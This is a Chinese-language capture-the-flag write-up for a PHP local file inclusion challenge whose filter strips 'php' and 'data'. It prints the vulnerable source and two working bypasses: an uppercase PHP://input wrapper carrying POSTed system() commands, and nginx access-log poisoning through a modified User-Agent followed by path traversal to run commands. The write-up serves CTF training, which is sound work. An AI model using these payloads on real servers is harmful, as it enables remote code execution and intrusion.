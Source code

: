 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:26:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

过滤了php

过滤了data







### 第一种

大小写绕过

GET传入

```
?file=PHP://input
```

POST传入

```
<?php system("ls");?>
```

![image-20250405155627146](./assets/image-20250405155627146.png)

读取fl0g.php

GET

```
?file=PHP://input
```

POST

```
<?php system("tac fl0g.php");?>
```

![image-20250405155654787](./assets/image-20250405155654787.png)





### 第二种

日志注入

读取日志文件

```
?file=../../../../../../../var/log/nginx/access.log
```

![image-20250405155726367](./assets/image-20250405155726367.png)

抓包修改UA

![image-20250405155815903](./assets/image-20250405155815903.png)

![image-20250405155827200](./assets/image-20250405155827200.png)



成功写入

GET

```
?file=../../../../../../../var/log/nginx/access.log
```

POST

```
a=system("ls");
```

![image-20250405155854503](./assets/image-20250405155854503.png)

命令执行成功
